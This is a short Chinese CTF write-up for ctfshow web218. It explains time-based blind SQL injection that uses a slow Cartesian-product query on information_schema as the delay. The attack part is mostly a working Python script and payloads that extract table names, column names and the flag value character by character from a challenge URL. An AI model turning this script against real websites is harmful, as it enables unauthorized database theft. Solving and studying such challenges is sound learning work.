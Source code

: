 ## web 218 笛卡尔积

参考：[ X1r0z Blog](https://exp10it.io/2022/07/ctfshow-web%E5%85%A5%E9%97%A8sql%E6%B3%A8%E5%85%A5-web198-220-writeup/#web218)

大佬准备的sql笛卡尔积查询payload，在我windows本地跑查询时间0.059s，要在linux下吗？

1.2秒左右payload

```sql
(SELECT count(*) FROM information_schema.columns A, information_schema.schemata B, information_schema.schemata C, information_schema.schemata D,information_schema.schemata E, information_schema.schemata F)
```

直接拿到题目试试，**确实挺不错的**，可能跑的有点小错误，多跑两次

![218](https://the0n3.top/medias/show-sql/218.png)

```python
import requests
import time
url = 'http://0c8d2c19-5b35-4e2e-ad51-a96181dd7b6b.challenge.ctf.show/api/'
str = ''
for i in range(60):
    min,max = 32, 128
    while True:
        j = min + (max-min)//2
        if(min == j):
            str += chr(j)
            print(str)
            break
        # 爆表名  ctfshow_flagxc
        # payload = {
        #     'ip': f"'1111') or if(ascii(substr((select group_concat(table_name) from information_schema.tables where table_schema=database()),{i},1))<{j},(SELECT count(*) FROM information_schema.columns A, information_schema.schemata B, information_schema.schemata C, information_schema.schemata D,information_schema.schemata E, information_schema.schemata F),'False')#",
        #     'debug': 0
        # }
        # 爆列 flagaac
        # payload = {
        #     'ip': f"'1111') or if(ascii(substr((select group_concat(column_name) from information_schema.columns where table_name='ctfshow_flagxc'),{i},1))<{j},(SELECT count(*) FROM information_schema.columns A, information_schema.schemata B, information_schema.schemata C, information_schema.schemata D,information_schema.schemata E, information_schema.schemata F),'False')#",
        #     'debug': 0
        # }
        # 爆金币 
        payload = {
            'ip': f"'1111') or if(ascii(substr((select group_concat(flagaac) from ctfshow_flagxc),{i},1))<{j},(SELECT count(*) FROM information_schema.columns A, information_schema.schemata B, information_schema.schemata C, information_schema.schemata D,information_schema.schemata E, information_schema.schemata F),'False')#",
            'debug': 0
        }
        start_time = time.time()
        r = requests.post(url=url, data=payload).text
        end_time = time.time()
        sub = end_time - start_time
        if sub >= 1:
            max = j
        else:
            min = j
```
